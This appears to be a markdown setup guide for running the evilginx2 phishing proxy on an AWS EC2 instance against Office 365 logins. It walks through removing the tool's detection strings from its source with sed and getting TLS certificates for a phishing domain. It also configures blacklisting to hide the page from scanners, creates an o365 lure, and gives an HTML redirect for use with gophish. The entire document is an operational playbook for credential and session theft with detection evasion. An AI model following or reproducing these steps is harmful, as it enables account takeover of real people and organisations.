

# Setup

Create a new EC2 instance

Go to EC2

* Launch Instance
* Select a t2 micro instance - debian etc
* generate ssh keys
* 15 gb storage
* create


* SSH into instance
* `sudo apt-get update`
* `sudo apt-get upgrade`
* `sudo apt -y install golang tmux git make certbot`


git clone [https://github.com/kgretzky/evilginx2.git](https://github.com/kgretzky/evilginx2.git)

cd into the folder

Use the following command to identify what detection strings to remove


```
sed -n -e '183p;350p;377,379p;381p;407p;562,566p;580p;1456,1463p' core/http_proxy.go sudo sed -i.bak -e '183d;350d;377,379d;381d;407d;562,566d;580d;1456,1463d' core/http_proxy.go


sudo make 
sudo make install 
sudo evilginx
```




Exit evilginx and gophish

Set up certbot for evilgnix

* sudo certbot certonly -d YOURDOMAIN --register-unsafely-without-email
  * Select Option 1 (standalone)
  * Copy the certs mentioned to evilgnx directory


* Start evilginx - `sudo evilgnx`
* `server domain PHISHING DOMAIN NAME`
* `server ip EC2IP`
* `blacklist unauth` (Protetc infra, doenst allow anyone without the link to reach phishing page)
* `config redirect_url https://realtarget/error` (find the targets real error page and redirect to that)

type phishlets, to see available phishes

.png>)

`phishlets hostname o365 PHISHINGDOMAIN` - shows the domain settings

lures create o365

.png>)


this lure URL can be used in gophish to redirect to evilnx


```
// Some code
<html><head><title></title></head><body><meta http-equiv="refresh" content="0;URL=https://"/></body></html>
```


.png>)

